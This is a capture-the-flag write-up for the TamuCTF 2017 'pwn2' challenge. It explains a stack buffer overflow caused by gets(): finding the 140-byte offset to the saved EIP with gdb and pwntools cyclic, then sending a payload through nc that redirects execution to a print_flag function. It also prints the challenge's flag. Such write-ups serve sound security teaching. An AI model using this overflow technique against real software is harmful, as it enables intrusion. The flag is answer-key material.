

# [TamuCTF 2017](https://ctf.tamu.edu/)
### pwn2 - 100 Points


We are given a source code file and a binary which is being run remotely.
Let's a analyze it with radare2:

```bash
$ wget https://ctf.tamu.edu/files/dacdf9d7951deede662f1b89e4ec2a90/pwn2
$ r2 pwn2
[0x08048450]> aaa		# Analyze
[0x08048450]> afl		# List functions found
.
.
0x0804854b    4 103          sym.print_flag
0x080485b2    1 84           sym.echo
0x08048606    1 36           sym.main
.
.
```

We can see similar functions to the previous pwning challenge, but there a complication here: if we look closely...

```bash
[0x080485c0]> s sym.print_flag 
[0x0804854b]> axt
[0x0804854b]>
```

We realize that **print_flag** function, which is responsible for printing the flag stored in **flag.txt**, is never called!  
Instead a new function named **echo** is called from **main** function.



Lets see what it does:

```bash
$ pdf @ sym.echo
```


Ok, so aparently it just prints back whatever you input before. But hey! To read your input it uses `gets` insecure function again!  That means we can write beyond the allocated memory for our input.
> "All right, but this case is not like the previous one! ([pwn1 challenge](../pwn1/pwn1.md)).  
> We do not want to change the value of a variable, but to call an existent function!"
> Is it possible?

Hell yeah! but to know how, we first need to understand how the stack is affected when calling a function (echo in this case).  
When a function is going to be called, some data is going to be pushed into the stack. Among other things one of the stuff is stored is the EIP register.

> "Why this register? Why is it special?"

The purpose of EIP register (or instruction pointer) is to indicate the CPU which instruction has to be executed after the current one. When the **echo** function finishes the CPU will need to continue the execution right after the call.  
Like this:

    

And the stack will look like:

    

Nice :v:!, looking at the stack we realize we could just write a bunch of bytes until we reach the **Saved EIP** value!

> Okay but ... how many bytes do we have to write?

Well, in this case we can calculate like `0x88h + 4d (ESP length) = 140d`, but I'll calculate another way too.  
Lets use gdb (GNU Debugger).

```bash
$ python -c 'print("A"*500)' > input.txt    # We generate a long string and save it in a text file.
$ gdb pwn2                                  # We open the binary with gdb.
(gdb) run < input.txt                       # Run the binary with the content of input.txt as input.
```

 

We ran the binary with gdb and passed 500 "A"s as input.
That `0x41414141` means that we have overwritten EIP register with value "AAAA" and the process crashed when it tried to execute the instrucction of that address (obviously there is nothing there).

So now we could just create a custom string like "ABCDEF...." to figure out which part of the string is being used to overwrite the EIP ... OR we can use a script which generates it for us :grin:.

Now is when it comes the **pwntools** for python (to install just do `$ pip install pwntools`) and more specifically its
**cyclic** utility. **Cyclic** is able to generate a sequence of unique substrings of any length (4 by default).

Lets try it!

```bash
$ pwn cyclic 500 > input.txt  # Generate a string of 500 chars with unique substrings of 4 characters.
$ gdb pwn2
(gdb) run < input.txt
```

 

To check that value we do:
```bash
$ pwn cyclic -l 0x6261616b
140
```

And finally, after 140 Characters we write a new address to continue the execution. Which address? the address of the **print_flag** function, of course! The new execution flow will look like this:

 

Lets get our flag:
```bash
$ python -c 'print("A"*140 + "\x4b\x85\x04\x08")' | nc pwn.ctf.tamu.edu 4321 
Enter a word to be echoed:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAK�
This function has been deprecated
gigem{D34D_FUNC_R1S1NG}
```

Answer: gigem{D34D_FUNC_R1S1NG}

### Complete video

<a href="https://asciinema.org/a/e8oyx42bm4nbs5stm33o4x24s?autoplay=1"></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [gdb](https://www.gnu.org/software/gdb/) - For binary debugging.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
